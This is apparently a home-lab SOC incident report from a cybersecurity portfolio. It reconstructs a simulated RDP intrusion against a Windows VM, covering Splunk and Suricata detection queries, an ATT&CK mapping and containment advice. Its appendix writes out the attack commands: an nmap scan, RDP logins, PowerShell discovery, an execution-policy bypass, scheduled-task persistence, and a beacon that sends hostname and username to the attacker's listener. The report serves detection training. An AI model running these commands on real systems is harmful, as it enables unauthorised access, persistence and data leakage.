

# SOC Incident Report
## Controlled RDP-to-C2 Attack Chain — August 2, 2026

**Environment:** Isolated VirtualBox home lab  
**Analyst:** Nehal Patel  
**Incident date:** August 2, 2026  
**Classification:** Controlled security simulation  
**Production-equivalent severity:** High  

> This report documents a harmless simulation conducted only inside an isolated home lab. No real organization, external system, or production data was targeted.

---

## 1. Executive Summary

A controlled multi-stage intrusion was simulated from a Kali Linux attacker against a Windows victim. Traffic between both systems was routed through an Ubuntu SOC gateway running Suricata, Wireshark, tcpdump, and Splunk Enterprise.

The investigation confirmed the following sequence:

```text
Network reconnaissance
→ failed RDP authentication
→ successful RDP access
→ system and account discovery
→ PowerShell execution-policy bypass
→ PowerShell script execution
→ scheduled-task persistence
→ outbound HTTP C2-style beacon
```

Network telemetry was collected through Suricata and endpoint telemetry was forwarded from Windows through the Splunk Universal Forwarder. Splunk was used to correlate the events and reconstruct the attack timeline.

---

## 2. Lab Architecture



### Systems

| Role | Hostname / VM | IP address |
|---|---|---:|
| Attacker | Kali Attacker / `kali-attacker` | `192.168.10.10` |
| SOC gateway | Ubuntu SOC | `192.168.10.1`, `192.168.20.1` |
| Victim | Windows Victim / `DESKTOP-17JMLSF` | `192.168.20.20` |

### Telemetry ingested into Splunk

- Suricata `eve.json`
- Suricata IDS alerts and network flows
- Windows Security
- Windows System
- Windows Application
- Sysmon Operational
- PowerShell Operational
- Microsoft Defender Operational

---

## 3. Incident Scope and Assumptions

The simulation used the local account `victimuser` on the Windows victim. The source of attacker activity was `192.168.10.10`.

The evidence confirms access and post-access activity. It does not represent malware execution; all scripts and files were harmless lab artifacts with recognizable `SOC-LAB` markers.

---

## 4. Chronological Timeline

| Time | Stage | Key evidence |
|---|---|---|
| 14:58:10–14:58:19 | Network reconnaissance | Suricata recorded TCP flows from `192.168.10.10` to Windows ports `135`, `139`, `445`, `3389`, and `5985` |
| 15:11:12 | Failed RDP login | Event ID `4625`; `victimuser`; source `192.168.10.10`; bad password |
| 15:11:16 | Failed RDP login | Second Event ID `4625` from `192.168.10.10` |
| 15:11:18 | Failed RDP login | Third Event ID `4625` from `192.168.10.10` |
| 15:11:44 | Successful RDP access | Event ID `4624`; Logon Type `10`; user `victimuser`; source `192.168.10.10` |
| 15:31:39 | System and account discovery | Sysmon Event ID `1` recorded a PowerShell command containing `whoami`, `hostname`, `ipconfig`, `Get-LocalUser`, and `Get-Process` |
| 15:34:36 | PowerShell script execution | PowerShell Event ID `4104` recorded `ExecutionPolicy Bypass` and `C:\SOC-LAB\stage3.ps1` |
| 15:35:44 | Scheduled-task persistence | `New-ScheduledTaskAction`, `New-ScheduledTaskTrigger`, `Register-ScheduledTask`, and `Start-ScheduledTask` detected |
| 15:36:24 | C2-style HTTP beacon | Windows connected to `192.168.10.10:8000`; URI included hostname, user, and `stage=complete` |
| 15:37:28 | Continued C2-style flow | Suricata recorded a corresponding TCP/HTTP flow |

Repeated successful RDP Event ID `4624` records were also observed at 15:27:14 and 15:30:42, consistent with additional session activity or reconnections.

---

## 5. Evidence and Detection Results

### 5.1 Network Reconnaissance

Kali scanned selected Windows management, file-sharing, and remote-access ports.


**Observed Suricata events**

| Time | Source | Destination | Port | Protocol |
|---|---|---|---:|---|
| 14:58:10.704 | `192.168.10.10` | `192.168.20.20` | 139 | TCP |
| 14:58:10.705 | `192.168.10.10` | `192.168.20.20` | 135 | TCP |
| 14:58:11.719 | `192.168.10.10` | `192.168.20.20` | 3389 | TCP |
| 14:58:15.727 | `192.168.10.10` | `192.168.20.20` | 5985 | TCP |
| 14:58:15.735 | `192.168.10.10` | `192.168.20.20` | 445 | TCP |

The activity is consistent with targeted network-service discovery.

**Splunk detection**

```spl
source="/var/log/suricata/eve.json"
src_ip="192.168.10.10"
dest_ip="192.168.20.20"
dest_port IN (135,139,445,3389,5985)
| table _time event_type src_ip dest_ip dest_port proto app_proto alert.signature
| sort _time
```

---

### 5.2 Failed RDP Authentication

Three failed logins were recorded before successful access.


| Time | User | Source IP | Failure reason | Event ID |
|---|---|---|---|---:|
| 15:11:12.014 | `victimuser` | `192.168.10.10` | Unknown username or bad password | 4625 |
| 15:11:16.259 | `victimuser` | `192.168.10.10` | Unknown username or bad password | 4625 |
| 15:11:18.490 | `victimuser` | `192.168.10.10` | Unknown username or bad password | 4625 |

**Status:** `0xC000006D`  
**Sub-status:** `0xC000006A`

**Splunk detection**

```spl
index=* source="WinEventLog:Security" EventCode=4625
| eval User=coalesce(TargetUserName,Account_Name,user)
| eval SourceIP=coalesce(IpAddress,Source_Network_Address)
| search SourceIP="192.168.10.10" OR _raw="192.168.10.10"
| table _time User SourceIP Logon_Type Failure_Reason Status Sub_Status EventCode
| sort _time
```

---

### 5.3 Successful RDP Access

A successful RemoteInteractive logon followed the failed attempts.


| Time | User | Source IP | Logon Type | Event ID |
|---|---|---|---:|---:|
| 15:11:44.420 | `victimuser` | `192.168.10.10` | 10 | 4624 |

Logon Type `10` is consistent with an RDP session.

**Splunk detection**

```spl
index=* source="WinEventLog:Security" EventCode=4624
| rex field=_raw "Logon Type:\s+(?<RDPLogonType>\d+)"
| rex field=_raw "Source Network Address:\s+(?<SourceIP>[^\r\n]+)"
| eval User=coalesce(TargetUserName,mvindex(Account_Name,-1),user)
| where RDPLogonType=10 AND SourceIP="192.168.10.10"
| table _time User SourceIP RDPLogonType EventCode
| sort _time
```

---

### 5.4 System and Account Discovery

PowerShell collected the logged-in identity, hostname, network configuration, local users, and running processes.


**Observed command**

```powershell
powershell.exe -NoProfile -Command "Write-Output 'SOC-LAB-DISCOVERY-START'; whoami; hostname; ipconfig; Get-LocalUser; Get-Process | Select-Object -First 10; Write-Output 'SOC-LAB-DISCOVERY-END'"
```

**Splunk detection — parent PowerShell process**

```spl
index=* source="WinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=1
(CommandLine="*SOC-LAB-DISCOVERY*" OR CommandLine="*Get-LocalUser*" OR CommandLine="*Get-Process*")
| table _time User Image ParentImage CommandLine
| sort _time
```

**Splunk detection — child discovery processes**

```spl
index=* source="WinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=1
(Image="*\\whoami.exe" OR Image="*\\HOSTNAME.EXE" OR Image="*\\ipconfig.exe")
| table _time EventCode User Image ParentImage CommandLine
| sort _time
```

---

### 5.5 PowerShell Execution-Policy Bypass

PowerShell Event ID `4104` recorded execution of a harmless script using an execution-policy bypass.

**Observed evidence**

| Time | Host | Event ID | Command |
|---|---|---:|---|
| 15:34:36.658 | `DESKTOP-17JMLSF` | 4104 | `powershell.exe -NoProfile -ExecutionPolicy Bypass -File "C:\SOC-LAB\stage3.ps1"` |

**Splunk detection**

```spl
index=* source="WinEventLog:Microsoft-Windows-PowerShell/Operational" EventCode=4104
| eval PowerShellCommand=coalesce(ScriptBlockText,Message,_raw)
| search PowerShellCommand="*SOC-LAB*" OR PowerShellCommand="*stage3.ps1*" OR PowerShellCommand="*ExecutionPolicy Bypass*"
| table _time host EventCode PowerShellCommand
| sort _time
```

**Analyst assessment:** The script was harmless, but `ExecutionPolicy Bypass` is a high-value detection indicator because it is commonly used to run scripts outside normal policy controls.

---

### 5.6 Scheduled-Task Persistence

PowerShell activity showed creation and execution of a scheduled task.

| Time | Host | Detected actions |
|---|---|---|
| 15:35:44.596 | `DESKTOP-17JMLSF` | `New-ScheduledTaskAction` |
| 15:35:44.597 | `DESKTOP-17JMLSF` | `New-ScheduledTaskTrigger`, `Register-ScheduledTask`, `Start-ScheduledTask` |

**Splunk detection**

```spl
index=* source="WinEventLog:Microsoft-Windows-PowerShell/Operational" EventCode=4104
("New-ScheduledTaskAction" OR "New-ScheduledTaskTrigger" OR "Register-ScheduledTask" OR "Start-ScheduledTask")
| eval PSCommand=coalesce(ScriptBlockText,Message,_raw)
| rex max_match=0 field=PSCommand "(?<DetectedActions>New-ScheduledTaskAction|New-ScheduledTaskTrigger|Register-ScheduledTask|Start-ScheduledTask)"
| table _time host DetectedActions
| sort _time
```

**Analyst assessment:** In production, an unexpected task launching PowerShell at logon should be treated as potential persistence.

---

### 5.7 C2-Style HTTP Beacon

The victim initiated an outbound HTTP connection to the Kali system.

| Time | Stage | Source | Destination | Port | Protocol | URI |
|---|---|---|---|---:|---|---|
| 15:36:24.453 | C2 / outbound connection attempt | `192.168.20.20` | `192.168.10.10` | 8000 | HTTP/TCP | `/?host=DESKTOP-17JMLSF&user=victimuser&stage=complete` |
| 15:37:28.231 | Continued flow | `192.168.20.20` | `192.168.10.10` | 8000 | HTTP/TCP | Flow event |

**Splunk detection**

```spl
source="/var/log/suricata/eve.json"
src_ip="192.168.20.20"
dest_ip="192.168.10.10"
dest_port=8000
| eval Stage="C2 / Outbound Connection Attempt"
| eval URI=coalesce('http.url',url)
| table _time Stage src_ip dest_ip dest_port proto event_type app_proto URI
| sort _time
```

**Analyst assessment:** This was a controlled beacon simulation, not actual malware C2. In production, a workstation sending identifying information to an unusual internal or external HTTP listener would require investigation and containment.

---

## 6. Additional Lab Activity

The following harmless stages were also performed:

- Creation of fake employee and server documents
- ZIP archive creation using `Compress-Archive`
- Transfer of the fake archive to Kali over TCP port `9001`

These actions should be added to the confirmed incident timeline only after their endpoint or Suricata events are captured and attached.

**Archive detection query**

```spl
index=* source="WinEventLog:Microsoft-Windows-PowerShell/Operational" EventCode=4104
("Compress-Archive" OR "collected-data.zip" OR "employee-data.txt" OR "server-notes.txt")
| eval Command=coalesce(ScriptBlockText,Message,_raw)
| table _time host EventCode Command
| sort _time
```

**TCP/9001 transfer query**

```spl
source="/var/log/suricata/eve.json"
src_ip="192.168.20.20"
dest_ip="192.168.10.10"
dest_port=9001
| table _time event_type src_ip dest_ip src_port dest_port proto app_proto
| sort _time
```

---

## 7. Indicators and Artifacts

| Type | Indicator |
|---|---|
| Attacker IP | `192.168.10.10` |
| Victim IP | `192.168.20.20` |
| Victim hostname | `DESKTOP-17JMLSF` |
| Target account | `victimuser` |
| Reconnaissance ports | `135`, `139`, `445`, `3389`, `5985` |
| Beacon destination | `192.168.10.10:8000` |
| Script | `C:\SOC-LAB\stage3.ps1` |
| Earlier lab script | `C:\SOC-LAB\payload.ps1` |
| Scheduled task | `SOC-LAB-Update` |
| Beacon marker | `stage=complete` |
| Archive | `C:\SOC-LAB\collected-data.zip` |
| Simulated exfiltration port | `9001/TCP` |

---

## 8. MITRE ATT&CK Mapping

| Stage | Technique |
|---|---|
| Port scanning | T1046 — Network Service Scanning |
| Failed password attempts | T1110.001 — Password Guessing |
| RDP access | T1021.001 — Remote Desktop Protocol |
| User discovery | T1033 — System Owner/User Discovery |
| Local-account discovery | T1087.001 — Local Account |
| Network discovery | T1016 — System Network Configuration Discovery |
| Process discovery | T1057 — Process Discovery |
| PowerShell | T1059.001 — PowerShell |
| Scheduled task | T1053.005 — Scheduled Task |
| HTTP beacon | T1071.001 — Web Protocols |
| ZIP staging | T1560.001 — Archive via Utility |
| Simulated transfer | T1041 — Exfiltration Over C2 Channel |

---

## 9. Analyst Assessment

### What happened

A Kali host enumerated services on a Windows endpoint. Repeated RDP login failures were followed by a successful RDP session. After access, PowerShell was used for discovery, a harmless script was executed with an execution-policy bypass, and a scheduled task was created. The Windows victim then sent an HTTP request containing host and user information to a Kali-controlled listener.

### Why it matters

The combination of failed authentication, successful remote access, PowerShell execution, persistence, and outbound beaconing is highly suspicious in a production environment. Individually, some events can be legitimate; together, they form a coherent attack pattern.

### Confidence

**High.** The activity was validated across independent network and endpoint sources:

- Windows Security for RDP authentication
- Sysmon for process execution and command lines
- PowerShell Operational for script-block content
- Suricata for reconnaissance and outbound communication
- Splunk for centralized correlation and timeline reconstruction

---

## 10. Containment Recommendations

For an equivalent production incident:

1. Isolate the affected endpoint.
2. Disable or reset the affected user account.
3. Terminate unauthorized RDP sessions.
4. Block the attacker and C2 destination IPs.
5. Remove unauthorized scheduled tasks.
6. Quarantine suspicious scripts and archives.
7. Review related authentication, Sysmon, PowerShell, EDR, DNS, proxy, and firewall logs.
8. Search the environment for the same indicators and commands.
9. Rotate credentials used on the affected system.
10. Preserve forensic evidence before remediation.

---

## 11. Remediation and Detection Improvements

- Require MFA for remote access.
- Restrict RDP to approved management networks.
- Apply account-lockout and password controls.
- Alert on repeated `4625` failures followed by `4624` Logon Type `10`.
- Alert on PowerShell `ExecutionPolicy Bypass`.
- Monitor PowerShell Event ID `4104`.
- Monitor Sysmon Event ID `1` for suspicious parent-child relationships.
- Monitor scheduled-task creation.
- Alert on unusual outbound HTTP to non-standard ports.
- Maintain network segmentation and centralized logging.
- Convert the individual SPL searches into saved searches and correlation alerts.

---

## 12. Conclusion

The lab successfully demonstrated an end-to-end SOC investigation across network and endpoint telemetry:

```text
Attack simulation
→ telemetry generation
→ centralized ingestion
→ detection
→ correlation
→ timeline reconstruction
→ MITRE ATT&CK mapping
→ response recommendations
```

The confirmed August 2 chain was:

```text
Reconnaissance
→ failed RDP attempts
→ successful RDP access
→ discovery
→ PowerShell execution
→ scheduled-task persistence
→ outbound HTTP C2-style beacon
```

This report, its evidence, and its detection queries provide a reproducible SOC case study suitable for a cybersecurity portfolio.

---

## Appendix A — Controlled Simulation Commands

### Reconnaissance

```bash
sudo nmap -sS -Pn -p 135,139,445,3389,5985 192.168.20.20
```

### Failed RDP attempts

```bash
xfreerdp3 /v:192.168.20.20 /u:victimuser /p:'<WRONG_LAB_PASSWORD>' /cert:ignore
```

### Successful RDP session

```bash
xfreerdp3 /v:192.168.20.20 /u:victimuser /cert:ignore /dynamic-resolution
```

### Discovery

```powershell
powershell.exe -NoProfile -Command "Write-Output 'SOC-LAB-DISCOVERY-START'; whoami; hostname; ipconfig; Get-LocalUser; Get-Process | Select-Object -First 10; Write-Output 'SOC-LAB-DISCOVERY-END'"
```

### Harmless payload execution

```powershell
New-Item -ItemType Directory -Path "C:\SOC-LAB" -Force

'Write-Output "SOC-LAB-PAYLOAD-EXECUTED"; Get-Date | Out-File "C:\SOC-LAB\payload-stage.txt"' |
    Set-Content "C:\SOC-LAB\stage3.ps1"

powershell.exe -NoProfile -ExecutionPolicy Bypass -File "C:\SOC-LAB\stage3.ps1"
```

### Scheduled-task persistence simulation

```powershell
$action = New-ScheduledTaskAction -Execute "powershell.exe" -Argument '-NoProfile -Command "Add-Content C:\SOC-LAB\persistence.log \"SOC-LAB task executed\""'
$trigger = New-ScheduledTaskTrigger -AtLogOn
Register-ScheduledTask -TaskName "SOC-LAB-Update" -Action $action -Trigger $trigger -Description "Home-lab persistence test" -Force
Start-ScheduledTask -TaskName "SOC-LAB-Update"
```

### C2-style beacon simulation

```powershell
Add-Type -AssemblyName System.Net.Http
$handler = New-Object System.Net.Http.HttpClientHandler
$handler.UseProxy = $false
$client = New-Object System.Net.Http.HttpClient($handler)
$client.GetAsync("http://192.168.10.10:8000/?host=$env:COMPUTERNAME&user=$env:USERNAME&stage=complete").Result.StatusCode
```

---

## Appendix B — Screenshot Index

1. `screenshots/01-nmap-scan.png` — Kali Nmap scan
2. `screenshots/02-failed-rdp-aug2.png` — August 2 failed RDP events
3. `screenshots/03-successful-rdp.png` — successful RDP Logon Type 10 events
4. `screenshots/04-system-discovery.png` — Sysmon discovery-command evidence
